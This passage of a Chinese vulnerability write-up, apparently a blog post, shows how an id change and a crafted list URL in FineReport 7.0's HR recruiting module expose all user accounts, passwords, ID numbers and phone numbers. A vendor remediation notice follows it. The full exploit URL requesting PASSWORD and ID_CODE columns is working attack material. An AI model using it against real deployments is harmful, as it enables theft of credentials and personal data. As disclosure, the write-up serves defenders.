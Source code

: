 **可以看到很多 id 存在，就不一一测试了  
**

**改成 2138 后（****2138 是一个特殊的 id 值****），点新增  
**

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGYicfDqs81xf6p95jt0twSBC0ZIEmvYuiajaPfliccLgoRMib9vPu5ajN744RPD1e5Q9tuiaRFn4CuWy0A/640?wx_fmt=png)

**然后点击申请人框框处，发现输出了所有账户和密码（身份证电话等敏感信息）  
**

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGYicfDqs81xf6p95jt0twSBCGhCAB3JWtHpARwybR45T4YUib1BRy55x5nu8ia9n1DyiaF0TicEXYVUJBQ/640?wx_fmt=png)

**图中 4Q 开头的密码为 123456  
**

**另一个接口处同样存在这个漏洞  
**

**登陆后访问  
**

**再次提醒，url 中的**

**FM_SYS_ID** **每个站点时不同的**

```
https://XXXXXX/base/hr/a.do?action=list&entityId=HR_RECRUIT_USER&FM_SYS_ID=XXXXXX&_dc=1615462290692&columnFieldNames=ID,ACCOUNT,NAME,PASSWORD,EMAIL,REGISTER_DATE,PHONE,TYPE#,ID_CODE,IS_LOGIN#&search.NAME#like=&searchMode=simple&page=1&start=0&limit=500
```

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGYicfDqs81xf6p95jt0twSBChZMH9dPmriaIIYicWLfE8YIxZK94IicmacMS2W9icGW7BGQHVPhDPgwARg/640?wx_fmt=png)

**涉及信息过多，打厚码**  

”

![](https://mmbiz.qpic.cn/mmbiz_png/OBLmObCsZtRhFM3KeDj0QMtHtS04jFyCfsXLsRytlX5oAxgTNL5dYAAe5swJaOREVqksBqdUW8nzibErssPRu5w/640?wx_fmt=png)

****Part 6 修复建议****

  

“

**受影响的是 FineReport 7.0 版本，属于公司 2012 年的历史版本，此版本现已不再维护。  
**

**漏洞中提及的客户近期已联系修改系统密码来降低风险，若还有其他客户有类似问题，需要主动联系官方技术支持咨询下处理方案，技术支持方式见**

```
https://www.fanruan.com/support
```

”

![](https://mmbiz.qpic.cn/mmbiz_png/OBLmObCsZtRhFM3KeDj0QMtHtS04jFyCfsXLsRytlX5oAxgTNL5dYAAe5swJaOREVqksBqdUW8nzibErssPRu5w/640?wx_fmt=png)

****Part 7 关于抽奖****
